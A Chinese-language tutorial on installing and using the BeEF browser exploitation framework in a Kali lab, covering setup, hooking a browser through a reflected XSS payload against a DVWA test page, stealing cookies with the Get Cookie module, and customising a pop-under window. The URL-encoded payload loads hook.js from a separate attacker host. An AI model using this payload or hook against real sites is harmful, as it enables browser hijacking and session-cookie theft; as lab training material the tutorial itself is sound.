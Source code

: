 浏览器利用框架项目

![过程](./../../../images/BeEF/%E8%BF%87%E7%A8%8B.png)

## 1 安装

安装 Beef-XSS

```
┌──(root㉿Kali-24)-[~]
└─# apt update
┌──(root㉿Kali-24)-[~]
└─# apt install -y beef-xss
```

初始化 Beef-XSS

```
┌──(root㉿Kali-24)-[~]
└─# beef-xss
```

设置密码

```
[-] Please type a new password for the beef user: 
```

> 用户名    beef
> 
> 密码        beef-xss

在配置文件中查看密码

```
┌──(root㉿Kali-24)-[~]
└─# vim /etc/beef-xss/config.yaml
```

```
pass: beef
passwd: beef-xss
```

查看地址

```
[*]  Web UI: http://127.0.0.1:3000/ui/panel                                “控制台地址”
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>            “劫持地址”
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>        “模板地址"
```

查看主目录

```
┌──(root㉿Kali-24)-[~]
└─# ls /usr/share/beef-xss
```

浏览器访问

> http://192.168.1.24:3000/ui/panel
> 
> 查看控制台

浏览器访问

> http://192.168.1.24:3000/hook.js
> 
> 查看模板

## 2 劫持用户浏览器

利用提供的 hook.js 构造 payload 构造在目标 URL 中

当用户访问目标 URL ，即可劫持成功

实战

> [XSS 跨站脚本攻击.md](..\..\XSS 跨站脚本攻击\XSS 跨站脚本攻击.md)
> 
> 反射型 XSS 攻击劫持用户浏览器

浏览器访问

> http://192.168.1.76/DVWA/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%20%73%72%63%3d%22%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%2e%32%34%3a%33%30%30%30%2f%68%6f%6f%6b%2e%6a%73%22%3e%3c%2f%73%63%72%69%70%74%3e
> 
> 劫持浏览器

## 3 beef 模块的使用

查看模块

![查看模块](./../../../images/BeEF/%E6%9F%A5%E7%9C%8B%E6%A8%A1%E5%9D%97.png)

颜色分类

![](./../../../images/BeEF/%E9%A2%9C%E8%89%B2%E5%88%86%E7%B1%BB.png)

| 操作   | 描述                        |
| ---- | ------------------------- |
| 绿色模块 | 表示模块适合目标浏览器，并且执行结果对客户端不可见 |
| 红色模块 | 表示模块不适用于当前用户，有些红色模块也可正常执行 |
| 橙色模块 | 模块可用，但结果对用户可见(CAM弹窗申请权限等) |
| 灰色模块 | 模块未在目标浏览器上测试过             |

### 3.1 获取 Cookie

执行 Get Cookie 模块

![执行 Get Cookie 模块](./../../../images/BeEF/%E6%89%A7%E8%A1%8C%20Get%20Cookie%20%E6%A8%A1%E5%9D%97.png)

查看获取到的 Cookie

![查看获取到的 Cookie](./../../../images/BeEF/%E6%9F%A5%E7%9C%8B%E8%8E%B7%E5%8F%96%E5%88%B0%E7%9A%84%20Cookie.png)

### 3.2 弹窗

执行 Create Pop Under 模块

![执行 Create Pop Under 模块](./../../../images/BeEF/%E6%89%A7%E8%A1%8C%20Create%20Pop%20Under%20%E6%A8%A1%E5%9D%97.png)

弹出窗口

![弹出窗口](./../../../images/BeEF/%E5%BC%B9%E5%87%BA%E7%AA%97%E5%8F%A3.png)

> 弹窗默认没有任何内容显示，可编辑弹窗文件，增加图片

切换到弹窗模块所在目录

```
┌──(root㉿Kali-24)-[~]
└─# cd /usr/share/beef-xss/modules/
```

```
┌──(root㉿Kali-24)-[/usr/share/beef-xss/modules]
└─# ls                    
browser  chrome_extensions  debug  exploits  host  ipec  metasploit  misc  network  persistence  phonegap  social_engineering
```

根据路径找到弹窗模块

```
┌──(root㉿Kali-24)-[/usr/share/beef-xss/modules]
└─# cd /usr/share/beef-xss/modules/persistence/popunder_window
```

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/modules/persistence/popunder_window]
└─# ls
command.js  config.yaml  module.rb
```

编辑配置文件

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/modules/persistence/popunder_window]
└─# vim command.js
```

修改

```
window.open(popunder_url,popunder_name,'toolbar=0,location=0,directories=0,status=0,menubar=0,scrollbars=0,resizable=0,width=1,height=1,left='+screen.width+',top='+screen.height+'').blur();
```

```
window.open(popunder_url,popunder_name,'toolbar=0,location=0,directories=0,status=0,menubar=0,scrollbars=0,resizable=0,width=550,height=320,left='+(screen.width/2-500)+',top='+(screen.height/2-200)+'').blur();
```

| 操作         | 描述                                                           |
| ---------- | ------------------------------------------------------------ |
| width=515  | 弹窗宽度 515 像素                                                  |
| height=320 | 弹窗高度 320 像素                                                  |
| left       | 弹窗距离浏览器左边的距离设置为 (screen.width/2-500)，其中 screen.width 为屏幕的宽度  |
| top        | 弹窗距离浏览器顶端的距离为 (screen.height/2-200) ，其中 screen.height 为屏幕的高度 |

> plain.html 是弹窗调用的 html 页面
> width=1 和 height=1 是控制弹窗的大小，left 和 top 是控制弹窗在屏幕上显示的位

切换到弹窗页面所在目录

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/modules/persistence/popunder_window]
└─# cd /usr/share/beef-xss/extensions/demos/html
```

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/extensions/demos/html]
└─# ls
adobe_flash_update.crx  ajax-loader.gif  beef.jpg  clickjacking  report.html       sound.wav
adobe_flash_update.png  basic.html       butcher   plain.html    secret_page.html
```

> plain.html 即是弹窗所调用的 html 文件

上传图片    `demo.jpg`    到以上目录

编辑 plain.html 文件

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/extensions/demos/html]
└─# vim plain.html
```

在 `<body> </body>` 中间插入如下代码

```
<a href="http://www.qq.com" target="_blank" ><img src="/demos/demo.jpg" width="500"></a>
```

| 操作              | 描述                |
| --------------- | ----------------- |
| a               | 链接标签              |
| href            | 指定点击后跳转到哪个链接地址    |
| target="_blank" | 指定点击广告图片后单独弹出一个页面 |

在浏览器上再次执行弹窗模块

![在浏览器上再次执行弹窗模块](./../../../images/BeEF/%E5%9C%A8%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%8A%E5%86%8D%E6%AC%A1%E6%89%A7%E8%A1%8C%E5%BC%B9%E7%AA%97%E6%A8%A1%E5%9D%97.png)

点击图片

![点击图片](./../../../images/BeEF/%E7%82%B9%E5%87%BB%E5%9B%BE%E7%89%87.png)

> 跳转到了 www.qq.com

---

参考链接

- [BeEF](https://beefproject.com/)
